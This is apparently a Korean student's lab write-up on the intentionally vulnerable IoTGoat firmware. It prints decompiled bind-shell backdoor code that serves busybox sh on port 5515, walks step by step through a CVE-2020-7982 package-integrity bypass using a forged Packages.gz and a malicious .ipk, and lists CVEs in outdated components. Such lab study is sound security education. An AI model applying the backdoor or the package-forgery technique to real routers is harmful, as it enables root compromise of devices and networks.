일단 바로 딱 보이는 것은 /bin/busybox를 불러오는 것을 볼 수 있다. 그리고 저 출력되는 문장은 아까 2번에서 5515포트로 진입했을 때 출력되던 문장으로, 2번의 경로가 이걸 통해 오는 것으로 예상된다. 

- 메인 함수
    
    ```c
    int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
    {
      int v3; // r4
      int v4; // r7
      int v5; // r5
      int v6; // r1
      socklen_t v7; // [sp+0h] [bp-50h] BYREF
      char *v8[3]; // [sp+4h] [bp-4Ch] BYREF
      struct sockaddr v9; // [sp+10h] [bp-40h] BYREF
      sockaddr addr; // [sp+20h] [bp-30h] BYREF
    
      v8[0] = "/bin/busybox";
      v8[1] = "sh";
      v8[2] = 0;
      v9.sa_family = 2;
      *(_WORD *)v9.sa_data = htons(0x158Bu);
      v3 = 0;
      *(_DWORD *)&v9.sa_data[2] = 0;
      v4 = socket(2, 1, 0);
      bind(v4, &v9, 0x10u);
      listen(v4, 1);
      while ( 1 )
      {
        v7 = 16;
        v5 = accept(v4, &addr, &v7);
        if ( fork() )
        {
          write(v5, "[***]Successfully Connected to IoTGoat's Backdoor[***]\n", 0x37u);
          while ( v3 <= 2 )
          {
            v6 = v3++;
            dup2(v5, v6);
          }
          execve("/bin/busybox", v8, 0);
          close(v5);
        }
        close(v5);
      }
    }
    ```
    
- 기능 분석(제미나이)
    
    ### 코드 기능 분석 (Bind Shell)
    
    이 코드는 "바인드 쉘(Bind Shell)"이라고 불리는 전형적인 백도어입니다. 기기 자체에서 특정 포트를 열고, 공격자의 연결을 기다리는 방식입니다.
    
    코드가 수행하는 일은 다음과 같습니다.
    
    1. **`v4 = socket(2, 1, 0);`**
        - 네트워크 연결을 위한 소켓(창구)을 엽니다.
        - 여기서 첫번째 인자 2는 ipv4를 사용한다는 뜻이고(1은 내부 통신, 10은 ipv6), 두번째 인자 1은 TCP 연결(2 면은 UDP), 세번째 인자의 0은 1, 2 번째 인자를 활용한 기본 프로토콜 활용이다.
        
        
        
    2. **`(_WORD *)v9.sa_data = htons(0x158Bu);`**
        - 소켓이 사용할 포트 번호를 설정합니다. `0x158B` (16진수)는 10진수로 **5515**입니다.
        - 사용자님이 챌린지 2번에서 발견한 5515번 포트와 일치합니다.
        - v9 구조체가 네트워크과 관련된 것임 알 수 있다.
        
        
        
    3. **`bind(v4, &v9, 0x10u);`**
        - 소켓을 5515번 포트에 할당(bind)합니다.
        - 설명
            
            `bind(v4, &v9, 0x10u)`는 **"아까 만든 소켓(v4)에 특정 IP 주소와 포트 번호(v9)를 할당(bind)하라"**는 명령입니다.
            
            이전의 `socket()` 함수가 통신을 위한 '빈 창구'를 만드는 것이었다면, `bind()`는 그 창구에 **'5515번 포트, 이 기계의 IP 주소'라는 구체적인 주소표**를 붙이는 작업입니다.
            
            각 인자의 의미는 다음과 같습니다.
            
            ---
            
            ### 1. 첫 번째 인자: `v4`
            
            - **역할:** 소켓 파일 디스크립터 (Socket File Descriptor)
            - **의미:** `socket(2, 1, 0)` 함수가 성공적으로 실행되면서 반환해 준 **'소켓의 ID 번호'**입니다.
            - **비유:** "어떤 창구에 주소표를 붙일 것인가?"에 대한 대답입니다. "방금 만든 `v4`번 창구요."
            
            ### 2. 두 번째 인자: `&v9`
            
            - **역할:** 주소 정보가 담긴 구조체 포인터 (`struct sockaddr *`)
            - **의미:** 소켓에 할당할 **IP 주소와 포트 번호**가 들어있는 `v9` 변수의 메모리 주소입니다.
            - **핵심 분석:** 백도어 코드에서 `bind()`가 호출되기 *전에* `v9` 변수를 다음과 같이 설정했습니다.
                - `v9.sa_family = 2;`
                    - `AF_INET`, 즉 IPv4 주소 체계를 사용하겠다고 지정합니다.
                - `(_WORD *)v9.sa_data = htons(0x158Bu);`
                    - 포트 번호를 **5515** (`0x158B`)로 지정합니다. `htons`는 "Host to Network Short"의 약자로, 컴퓨터가 읽는 방식(리틀 엔디안)을 네트워크 통신 표준 방식(빅 엔디안)으로 변환해줍니다.
                - `(_DWORD *)&v9.sa_data[2] = 0;`
                    - 할당할 IP 주소를 `0`으로 지정합니다. 네트워크 프로그래밍에서 `0` (또는 `INADDR_ANY`)은 특별한 의미를 가집니다. **"이 컴퓨터가 가진 모든 IP 주소에서 접속을 받겠다"**는 뜻입니다.
                    - 예를 들어, IoT 기기가 Wi-Fi IP(`192.168.1.50`)와 유선랜 IP(`10.0.0.10`)를 동시에 가지고 있다면, 두 IP 주소의 5515번 포트로 모두 접속을 허용하게 됩니다.
            
            ### 3. 세 번째 인자: `0x10u`
            
            - **역할:** 주소 구조체의 크기 (Socket Address Length)
            - **의미:** 두 번째 인자로 넘겨준 `v9` 구조체의 전체 크기가 얼마인지 알려줍니다. `0x10` (16진수)은 10진수로 **16**이며, 이는 `struct sockaddr` 구조체의 표준 크기(16바이트)입니다.
            - **비유:** "주소표의 크기가 16바이트입니다"라고 커널에게 알려주는 기술적인 값입니다.
            
            ---
            
            ### 🎯 결론
            
            `bind(v4, &v9, 0x10u)` 호출은 **"v4번 소켓을, 이 기기의 모든 IP 주소에 대해, 5515번 포트로 들어오는 연결을 받을 수 있도록 설정합니다."**
            
            이 명령이 성공적으로 실행되면, 해당 IoT 기기는 5515번 포트에서 "공개적으로" 연결을 받을 준비를 마친 것이며, 바로 다음 단계인 `listen()`을 통해 본격적으로 공격자의 접속을 기다리게 됩니다.
            
    4. **`listen(v4, 1);`**
        - 이제 5515번 포트로 들어오는 연결을 "수신 대기"하기 시작합니다.
        (TCP 5515가 열려있던 이유)
    5. **`v5 = accept(v4, &addr, &v7);`**
        - (무한 루프 `while(1)` 안에서) 공격자가 5515번 포트로 접속할 때까지 기다리다가, 접속이 들어오면 `accept` (수락)합니다.
    6. **`write(v5, "[***]Successfully Connected to IoTGoat's Backdoor[***]\n", ...);`**
        - 연결된 공격자에게 사용자님이 보셨던 "Successfully Connected" 환영 메시지를 전송합니다.
    7. **`dup2(v5, v6);`**
        - 이 부분이 핵심입니다. `dup2` 함수를 이용해 **표준 입력(0), 표준 출력(1), 표준 에러(2)**의 방향을 모두 네트워크 연결(소켓 `v5`)로 돌려버립니다.
    8. **`execve("/bin/busybox", v8, 0);`**
        - `v8` 변수에 저장된 `"/bin/busybox", "sh"` 명령, 즉 **쉘(sh)을 실행**합니다.
        - 하지만 7번 단계에서 입출력 방향이 모두 네트워크로 바뀌었기 때문에, 이 쉘은 터미널이 아닌 **네트워크 너머의 공격자에게** 붙게 됩니다.
    
    **결론:**
    이 프로그램이 실행되면, IoT 기기는 5515번 포트를 열어놓고 대기합니다. 공격자가 `netcat` 등으로 이 포트에 접속하면, 환영 메시지와 함께 **기기의 루트 쉘을 획득**하게 됩니다.
    

## 4. Lack of Secure Update Mechanism

- CVE-2020-7982
    
    CVE-2020-7982는 널리 사용되는 오픈소스 라우터 펌웨어인 **OpenWrt**의 **OPKG 패키지 관리자**에서 발견된 심각한 **원격 코드 실행(Remote Code Execution, RCE)** 취약점입니다.
    
    NIST NVD(국립 취약점 데이터베이스)에 따르면 이 취약점은 CVSS 3.1 기준 **8.1 (High)** 등급을 받았습니다.
    
    ---
    
    ### 🎯 취약점의 핵심 내용
    
    이 취약점의 핵심은 **패키지 무결성 검사 우회**입니다.
    
    1. **정상적인 과정:** OpenWrt에서 사용자가 `opkg install <패키지명>` 명령을 실행하면, OPKG는 저장소(repository)에서 패키지 목록 파일을 다운로드합니다. 이 목록에는 각 패키지의 `SHA-256` 체크섬(해시값)이 포함되어 있습니다. 그 후 실제 패키지(`.ipk` 파일)를 다운로드하고, 이 파일의 해시값과 목록의 해시값이 일치하는지 검사하여 패키지가 변조되지 않았는지 확인합니다.
    2. **취약점 발생:** 공격자가 **중간자 공격(Man-in-the-Middle, MITM)**이나 DNS 스푸핑 등을 통해 라우터와 다운로드 서버 간의 통신을 가로챌 수 있다고 가정합니다.
    3. **공격 방식:** 공격자는 변조된 패키지 목록을 라우터에 전송합니다. 이때, 악성 패키지에 해당하는 **SHA-256 체크섬 값의 맨 앞에 공백(leading spaces)을 추가**합니다.
    4. **결과:** 취약한 버전의 OPKG는 이 비정상적인(앞에 공백이 있는) 체크섬 문자열을 올바르게 파싱(해석)하지 못합니다. 결과적으로, **무결성 검사 자체를 건너뛰고** "검증에 성공한 것"처럼 처리하여 다운로드한 패키지를 그대로 설치합니다.
    
    ---
    
    ### ☣️ 공격 시 영향
    
    - **임의 코드 실행:** 공격자는 이 과정을 통해 합법적인 패키지 대신 악성 코드가 포함된 패키지를 라우터에 설치할 수 있습니다.
    - **루트(Root) 권한 탈취:** OpenWrt에서 OPKG 패키지 관리자는 **루트(root) 권한**으로 실행됩니다. 따라서 악성 패키지가 성공적으로 설치되면, 공격자는 해당 라우터의 **완전한 제어권**을 획득하게 됩니다.
    - **네트워크 장악:** 라우터는 네트워크의 관문(gateway)이므로, 라우터가 장악당하면 공격자는 해당 네트워크를 통과하는 모든 트래픽을 도청하거나, 내부 네트워크의 다른 장치를 공격하는 등의 추가적인 악의적 활동을 할 수 있습니다.

위 CVE에 해당되는 버전은 다음과 같다.
→ OpenWrt 18.06.0 to 18.06.6 and 19.07.0, and LEDE 17.01.0 to 17.01.7


그리고 여기에 설치된 opkg OpenWRT 버전은 18.06.2 이다. 

### CVE-2020-7982 PoC

먼저 ARP Spoofing을 통해 중간자 공격(MITM, Man in the Middle)을 진행할 것이다.  

중간자 공격툴로는 bettercap을 사용하여 ARP Spoofing을 진행할 것이다.  

L2 Data-Link에서 동작하는 네트워크 도구로, MITM 도구이다. (이거 전버전은 ettercap) 

#### 사전 작업(ARP Spoofing - 중지)

bettercap 다운로드를 하고 


probe.net을 실행할려고 하다가…! 호오오오옥시 몰라 위법 소지를 확인했는데 위법 소지 가능성이 높다는 것을 보고 일단 올스탑, 그리고 추가로 더 찾아보니 애초에 IotGoat 기기가 게이트웨이 할당이 되어 있지 않고 내부망을 타는 것 같아 ARP Spoofing 대상도 아니었다. 리버스-행복 해질 뻔했다. 

#### 사전 작업(DNS Spoofing)

어차피 원래 순서는 ARP Spoofing → DNS Spoofing → 검증 부족으로 인한 악성 패키지 삽입이었는데, 여기서 저 앞 과정이 빠지는 것이다. 

현재 IoTGoat 자체에는 192.168.99.1 주소가 할당되어 있고, GW는 없다. 

Host-Only 통신용으로 VM에서 설정된 가상 어댑터는 192.168.99.210이다.

WSL의 IP는 192.168.43.2/20, GW는 192.168.32.1이다. (ip addr, route -n 명령어 활용)

내 PC(윈도우)의 IP는 192.168.219.102, GW는 192.168.219.1 이다. 

#### opkg로 설치될 악성 패키지(.ipk) 생성

- 악성 패키지용 preinst 스크립트 페이로드 작성


작업용 ./web-mitm 디렉터리 생성 및 preinst 스크립트 작성 , 작성된 스크립트에 실행권한 부여 
(preinst 스크립트는 Debian 기반 시스템에서 패키지가 설치 또는 업그레이드되기 전 실행되는 쉘 스크립트이다. 엄밀히 따지만 opkg 는 debian 기반은 아니지만, dpkg를 많이 참조하였고, preinst 스크립트 또한 사용한다.)  

- 패키지 정보 파일 생성


- control 및 data 아카이브 생성


control 아카이브는 위에서 작성했던 것들을 압축, data 아카이브는 비어도 상관없다(그냥 무지성 생성) 

- .ipk로 압축


#### 생성한 pwned.ipk 파일 정보 저장


파일 크기 : 684

해쉬 checksum : dcc296dae2d90187408c3ca16949a39f9a6388ee52ac1cf2288abb0d323e26dc

#### 위조 packages.gz 생성

- Iotgoat가 참조하는 실제 패키지 리스트 URL 확인


src/gz openwrt_base http://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/base

- 여기서 Packages.gz를 뒤에 붙여서 다운받기


- gunzip으로 압축해제


- 앞에서 만들어둔 pwned.ipk의 패키지 정보를 작성


여기서 아까 확인한 파일 사이즈와 SHA256체크섬을 활용, 그리고 해쉬값 앞에 공백 한 칸 추가

→ 여기서 실수해서 저 ~dc 뒤에 공백을 한 칸 넣었었다. 그게 아니라 앞에 한 칸을 넣어야한다. (공격 수행에서 다시 돌아옴) 

- 작성한 조작된 정보를 압축해제된 Packages로 넣은 뒤 압축하여 Packages.gz로 위장


- 파일 준비 완료


#### 준비된 공격용 파일들을 Windows로 이동

가상 어댑터 192.168.99.210으로 위장할 것이기 때문에 wsl이 아닌 windows(내 PC)에서 서버를 만들고 진행할 예정이다. 

#### 공격자 서버 실행

먼저 ‘관리자 권한으로’ PowerShell이나 cmd를 실행시켜준다. (80번 포트를 사용해야하기 때문에) 

- PowerShell에서 Python을 활용해 웹서버 실행(192.168.99.210:80) 후 유지


- 펌웨어는 기본적으로 RO이므로 RW로 재마운트


- /etc/host 에 도메인과 ip 추가(변경 전/후)


/etc/hosts 파일은 도메인 네임으로 접근할 때 /etc/hosts 파일을 먼저 확인한 후 있으면 해당 ip로 전개한다. 보통 DNS를 활용하면  Name Server에 질의를 하며 확인하는데, 그거 이전에 확인하는 로컬 NS하고 생각하면 된다. 사실 /etc/hosts가 더 먼저 있었으니 개쩌는 외장 hosts 파일이 NS 서버이지 않을까 싶다. 

#### 공격 수행 - 실패

(현재 wsl에서 백도어로 root 계정 iotgoat에 들어와있는 상태다.)  

이제 iotgoat에서 opkg update를 진행 후 opkg install pwned를 해보았는데,


실패해 버렸다. 

이유를 분석한 결과 이제 도메인 부분은 /etc/hosts로 처리해버렸지만, 뒤의 디렉터리 주소 부분이 PowerShell에서 대기하고 있던 부분과 맞지 않았던 것이다. 

- 그래서 요청하는 디렉터리 대로 만들고 Packages.gz와 pwned.ipk를 저 base 안에 박아버렸다.


다시 대기한다.


- 그리고 해쉬 무결점을 깨뜨리는 것이 메인인데, 착각해서 앞에 공백이 아니라 뒤에 공백을 넣어서 해쉬체크섬이 계속 동작중이었다.  그래서 Packages.gz를 다시 만들었다.


제일 위에 있는 체크섬이 pwned의 해쉬체크섬인데, 혼자 한칸 더 간 것도 볼 수 있다.  

#### 공격 수행 - 재시도

다시 한 번 opkg update를 시도하였고, iotgoat 측에서도 중간에 Update Avail이 하나 떴고, 


대기중이던 PowerShell에서도 http 성공 코드 200이 뜬 것을 볼 수 있다. 


그러나 마지막 opkg install pwned 에서는 되지 않고 있다.


원인을 확인해보니 


이 opkg update에서는 다운로드는 되었지만 후속하는 시그니쳐 파일 다운로드에 실패하였다. 그래서 검증에 실패하면서 Packages.gz 자체를 신뢰할 수 없는 파일로 처리하면서 제거해버린 것이다.

이는 지금 실습 과정 중 우회해야 하거나 그런 것은 아니기 때문에

- 그냥 /etc/opkg.conf 파일을 편집하여 저 option check_signature을 주석처리해버렸다.


- 다시 진행하여보니


초반에 제대로 …/base/Packages.gz가 다운로드 되고 아까처럼 Remove가 뜨지 않았다. 

- 드디어 opkg install pwned를 하니


다운로드에 성공하였다.

그리고 원래라면 /tmp/pwned.txt도 만들어져야 하지만.. 셸 스크립트를 짜는 과정에서


실수로 저 #!/bin/sh에서 /가 중간에 하나 빠졌다… 일단… 성공했다!! 와!! 

## 5. Use of Insecure or Outdated Components

### 리눅스 커널 버전

uname -a, uname -r을 통해 확인이 가능하다. 


확인 결과 리눅스 커널 4.14.95 첫번째(0) 배포 버전으로, 해당 버전의 취약점을 검색해본 결과,

CVE-2022-49862
[https://www.cvedetails.com/cve/CVE-2022-49862/](https://www.cvedetails.com/cve/CVE-2022-49862/)

CVE-2019-3701 
[https://nvd.nist.gov/vuln/detail/cve-2019-3701](https://nvd.nist.gov/vuln/detail/cve-2019-3701)

### Busy Box 버전

strings로 busybox 바이너리를 읽고, grep으로 BusyBox를 잡는다. 


BusyBox 1.28.4 버전임을 확인하였다. 

CVE-2018-20679 - DHCP 클라이언트 정보 유출 (1.30.0 버전 이전) 

CVE-2021-42380 - awk 앱플릿의 UAF 취약점(1.28.0 ~ 1.33.1 버전) → DOS에서 RCE까지 가능하다. 

`wget` 앱플릿의 힙 버퍼 오버플로우(1.28.4 및 이전 버전) 

CVE-2022-48174 - `ash` 셸의 스택 오버플로우(1.35 이전 버전) 

### dnsmasq 버전

위 busy box도 그렇고 /usr/sbin이나 /bin에 들어가 명령어 창에서 버전을 빼오는 방식이다.
그래서 바이너리를 읽어야 하기 때문에 단순히 grep을 하는 것이 아닌 strings로 문자열을 출력시키고 그 중에서 grep으로 버전 정보를 잡아낸다. 


버전이 2.73인 것을 볼 수 있다. 그리고 이 버전의 보안 취약점은 

#### 1. DNSpooq (2020년 발견)

가장 치명적인 취약점 모음으로, dnsmasq 2.83 이전 버전에 영향을 줍니다.

- **원격 코드 실행 (RCE) (CVE-2020-25681, CVE-2020-25682 등)**
    - **원인:** DNSSEC가 활성화된 상태에서 DNS 응답을 처리할 때 힙 버퍼 오버플로우가 발생합니다.
    - **영향:** 공격자가 특수하게 조작된 DNS 응답 패킷을 보내는 것만으로 서버에서 **원격으로 임의의 코드를 실행**할 수 있습니다. 이는 시스템 전체를 탈취당할 수 있는 매우 심각한 문제입니다.
- **DNS 캐시 포이즈닝 (CVE-2020-25684, CVE-2020-25685 등)**
    - **원인:** DNS 응답의 유효성 검사(트랜잭션 ID 등)가 미흡하고, 해시 알고리즘이 취약합니다.
    - **영향:** 공격자가 DNS 캐시를 오염시켜 사용자가 정상적인 사이트(예: 은행)에 접속하려 할 때 가짜 피싱 사이트로 연결시킬 수 있습니다.

#### 2. Google 발견 7종 취약점 (2017년 발견)

2.78 이전 버전에 영향을 미치는 심각한 취약점들입니다.

- **힙 버퍼 오버플로우 (CVE-2017-14491, CVE-2017-14492 등)**
    - **원인:** IPv6 라우터 광고(RA) 또는 DHCPv6 응답을 처리하는 과정에서 힙 버퍼 오버플로우가 발생합니다.
    - **영향:** 공격자가 로컬 네트워크에서 조작된 패킷을 전송하여 **서비스 거부(DoS)**를 일으키거나 **원격 코드 실행(RCE)**을 시도할 수 있습니다.

#### 3. 초기 버전의 취약점 (2015년 발견)

2.73 이전 버전에 영향을 미칩니다. 

- **메모리 유출 및 서비스 거부 (CVE-2015-3294)**
    - **원인:** TCP 기반 DNS 요청을 처리할 때 경계 밖 읽기(Out-of-bounds read) 오류가 발생합니다.
    - **영향:** 원격 공격자가 조작된 DNS 요청을 보내 프로세스 메모리 내용을 읽어내거나(정보 유출), dnsmasq 프로세스를 강제로 종료(DoS)시킬 수 있습니다.

### wpa_supplicant(Wi-Fi 보안)

역시 동일하게 찾을 수 있다. (/usr/sbin/wpa_supplicant 파일)


2.7 버전에 다가 개발 버전이므로 취약점이 더 있을 수 있다. 

#### 1. Dragonblood: WPA3 SAE/EAP-PWD 관련 취약점 (2019년)

`wpa_supplicant` 2.7 및 이전 버전은 WPA3 프로토콜의 SAE(Simultaneous Authentication of Equals) 핸드셰이크와 EAP-PWD 구현에서 여러 설계상 결함이 발견되었습니다.

- **CVE-2019-9494 (타이밍/캐시 기반 사이드 채널 공격)**
    - **영향:** 공격자가 SAE 핸드셰이크 중 발생하는 타이밍 차이나 캐시 접근 패턴을 분석하여, **Wi-Fi 비밀번호(PSK)의 정보를 유출**할 수 있습니다. 이는 비밀번호를 알아내기 위한 오프라인 사전 공격을 용이하게 합니다.
- **CVE-2019-9495 (EAP-PWD 사이드 채널 공격)**
    - **영향:** CVE-2019-9494와 유사하게 EAP-PWD 구현의 캐시 접근 패턴을 이용한 사이드 채널 공격입니다. 이를 통해 인증 정보(비밀번호)를 유추할 수 있습니다.
- **CVE-2019-9496 (SAE 확인(Confirm) 메시지 검증 누락)**
    - **영향:** SAE 핸드셰이크의 특정 상태를 제대로 검증하지 않아, 공격자가 **서비스 거부(DoS) 공격**을 유발할 수 있습니다.

---

#### 2. 브레인풀 커브(Brainpool Curves) 관련 사이드 채널 공격

- **CVE-2019-13377**
    - **영향:** `wpa_supplicant` 2.8 및 이전 버전(2.7 포함)에서 WPA3의 Brainpool 암호화 커브를 사용할 경우, 타이밍 및 캐시 기반 사이드 채널 공격에 취약합니다.
    - **결과:** 이 역시 공격자가 비밀번호 복구에 필요한 정보를 유출하는 데 사용될 수 있습니다.

---

#### 3. P2P(Wi-Fi Direct) 서비스 거부 (DoS)

- **USN-4757-1 / CVE-2021-0326 (이후 버전에서 식별)
USN : Ubuntu Security Notice**
    - **영향:** P2P(Wi-Fi Direct)의 프로비저닝 검색 요청(Provision Discovery)을 처리하는 과정에서 결함이 있었습니다.
    - **결과:** 물리적으로 가까이 있는 공격자가 조작된 P2P 요청을 전송하여 `wpa_supplicant` 프로세스를 강제로 종료시키거나(DoS), 잠재적으로 **임의의 코드를 실행**할 가능성이 있습니다. 2.7 버전도 이 로직의 영향을 받을 수 있습니다.

### pppd(Point-to-Point Protocol Daemon)

두 지점 간의 네트워크 연결을 관리하는 리눅스/유닉스용 데몬이다. 


버전 확인 결과 2.4.7 임을 알 수 있다. 

#### CVE-2020-8597 (심각도: Critical)

`pppd` 2.4.7 버전은 `2.4.8` 버전에서 패치된 이 치명적인 취약점에 노출되어 있습니다.

- **취약점 유형:** 스택 기반 버퍼 오버플로우 (Stack-based Buffer Overflow)
- **발생 지점:** **EAP (Extensible Authentication Protocol)** 패킷을 처리하는 과정
- **공격 시나리오:** 인증되지 않은 원격 공격자가 서버(라우터 등)에 특수하게 조작된 EAP 패킷을 전송합니다.
- **결과:** **원격 코드 실행 (RCE)**
